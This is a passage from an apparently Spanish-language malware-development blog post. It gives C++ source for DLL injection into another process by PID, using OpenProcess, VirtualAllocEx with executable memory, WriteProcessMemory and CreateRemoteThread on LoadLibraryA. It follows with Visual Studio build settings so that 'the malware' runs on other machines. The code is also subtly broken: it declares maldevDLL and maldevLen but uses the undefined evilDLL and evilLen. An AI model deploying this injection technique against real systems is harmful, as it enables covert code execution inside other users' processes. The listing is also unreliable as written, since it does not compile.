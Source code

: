 ```c++
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char maldevDLL[] = "C:\\maldev.dll";
unsigned int maldevLen = sizeof(maldevDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  if ( atoi(argv[1]) == 0) {
      printf("PID no se ha encontrado\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Finalmente como podemos observar se estan empleando muchas funciones las cuales ya explicamos en el post [**anterior**](https://thespartoos.github.io/posts/Remote-Process-Injection/).

## Compilación

#### Microsoft Visual Studio

En este caso si deseamos compilar el malware desde Visual Studio deberemos de configurar una serie de opciones para que no de error otros equipos a la hora de ejecutar el malware, ya sean maquinas virtuales o equipos de escritorio.

##### Code Generation Visual Studio

![](https://thespartoos.github.io/assets/img/favicons/RPInjection/errorRuntime.png)

En este apartado lo que vamos a modificar es que a la hora de generar el código nos permita le deberemos de especificar &nbsp;`Multi-threaded Debug (/Mtd)`&nbsp; en caso de que deseemos el binario con una biblioteca de tiempo de ejecución que a su vez incluye información de depuración. Para la versión final del malware es recomendable utilizar &nbsp;`Multi-threaded (/MT)`&nbsp;.
